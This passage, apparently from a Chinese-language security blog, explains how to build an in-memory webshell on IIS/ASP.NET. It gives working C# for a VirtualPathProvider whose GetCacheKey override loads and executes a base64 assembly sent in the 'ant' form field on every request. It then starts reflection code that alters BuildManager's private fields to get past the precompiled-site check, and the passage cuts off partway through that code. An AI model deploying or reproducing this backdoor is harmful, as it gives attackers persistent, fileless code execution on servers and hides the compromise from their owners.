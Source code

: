 在之前内存马文章中我提到过https://tttang.com/archive/1420/，我们只要在任意一个可以被每次请求触发的位置加入我们的逻辑即可做到内存马的效果。所以我们并不是一定非要按照官方文档实现一个VirtualFile对象，触发路径什么的其实对于我们来说也并不是必选项。

因为每次请求都需要去判断文件是否存在，所以理所应当就想到了把内存马注入到FileExists方法中。后来看了下哥斯拉的内存马是插在GetCacheKey方法里。我们当然希望我们的内存马是作为最高优先级被访问。这里我给两个函数都下个断点，看哪个先被命中，就知道哪个优先级比较高了。



![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1647525064788-fc41cee5-10a2-4541-8584-714032335f76.png)

看起来iis会先调用System.Web.Compilation.BuildManager.GetCacheKeyFromVirtualPath来获取当前的CacheKey，然后才会去触发FileExists方法。

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1647524991715-af5a3e4c-6ca3-472b-aebd-424bc13c149d.png)

经过进一步优化之后，我们仅重写了GetCacheKey一个方法，就实现内存马了的效果。

```csharp
public class SamplePathProvider : System.Web.Hosting.VirtualPathProvider
    {
        public override string GetCacheKey(string virtualPath)
        {
            try
            {
                HttpContext context = HttpContext.Current;
                String Payload = context.Request.Form["ant"];
                if (Payload != null)
                {
                    System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                    assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(context);
                    context.Response.End();
                }
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            }
            return Previous.GetCacheKey(virtualPath);
        }
    }
```

### 绕过预编译

在官方文档有一句话：

If a Web site is precompiled for deployment, content provided by a VirtualPathProvider instance is not compiled, and no VirtualPathProvider instances are used by the precompiled site.

并且在之前HostingEnvironment.RegisterVirtualPathProvider会判断当前BuildManager.IsPrecompiledApp是否为true。所以当目标网站是预编译发布的模式，我们需要利用反射来绕过预编译。

```csharp
System.Reflection.FieldInfo field_isPrecompiledAppComputed = null;
System.Reflection.FieldInfo field_isPrecompiledApp = null;
object field_theBuildManager_instance = null;
object field_isPrecompiledAppComputed_oldValue = null;
object field_isPrecompiledApp_oldValue = null;

var typeBuildManager = typeof(System.Web.Compilation.BuildManager);
System.Reflection.FieldInfo field_theBuildManager = typeBuildManager.GetField("_theBuildManager",
                                                                              System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic);
field_isPrecompiledAppComputed = typeBuildManager.GetField("_isPrecompiledAppComputed",
                                                           System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);
field_isPrecompiledApp = typeBuildManager.GetField("_isPrecompiledApp",
```